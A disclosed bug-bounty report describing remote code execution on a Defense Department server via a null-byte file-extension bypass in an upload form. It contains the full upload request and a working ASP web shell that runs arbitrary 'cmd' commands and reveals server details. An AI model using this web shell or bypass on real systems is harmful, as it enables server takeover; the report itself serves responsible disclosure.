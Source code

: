 # RCE via File Upload  with a Null Byte Truncated File Extension at https://██████/

## Report Details
- **Report ID**: 2054184
- **URL**: https://hackerone.com/reports/2054184
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-07-06T22:08:16.576Z
- **Disclosed**: 2023-12-21T17:40:19.710Z

## Reporter
- **Username**: pizzapower
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi,

I found "repos" at `https://███/` and `https://c█████████/` and this one (which doesn't have the file upload functionality appearing on the DOM, but it still may be there) `https://███████`.  There may be more, I had to fuzz a lot to find these. 

These repos contain file upload functionality. I found that if you place a null byte between file extensions, you can upload files with malicious extensions. 

Running the `dir` command at the uploaded file `https://████████/savefiles/poc.asp?cmd=dir`  - the shell has been deleted for security purposes. Let me know if you want me to reupload it. 

██████████

The request from burp - note the null byte: 

█████



*** Reproduction ***

1. Navigate to `https://███/`

2. Submit a file upload the same as the request I made above. Make sure there is a null byte between asp and png. 

3. Visit `https://████████/savefiles/poc.asp` and run commands. 


## Impact

Everything could be compromised.

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Here is the actual request, but I'm not sure how well the null byte will translate. 

```
POST /repo/orbital/repo.asp?fileToUpload=pizza.asp HTTP/1.1
Host: ███
Cookie: ASPSESSIONIDCCSBDDQT=CAJLLPMCPOBLODENMGDGMADC
Content-Length: 1306
Sec-Ch-Ua: 
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7RcvHwqSCmAtKCIB
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Sec-Ch-Ua-Platform: ""
Origin: https://███████
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://████████/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary7RcvHwqSCmAtKCIB
Content-Disposition: form-data; name="myfile"; filename="poc.asp.png"


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's local address:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>



------WebKitFormBoundary7RcvHwqSCmAtKCIB--

```

*** Reproduction ***

1. Navigate to `https://███/`

2. Submit a file upload the same as the request I made above. Make sure there is a null byte between asp and png. 

3. Visit `https://████/savefiles/poc.asp` and run commands.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
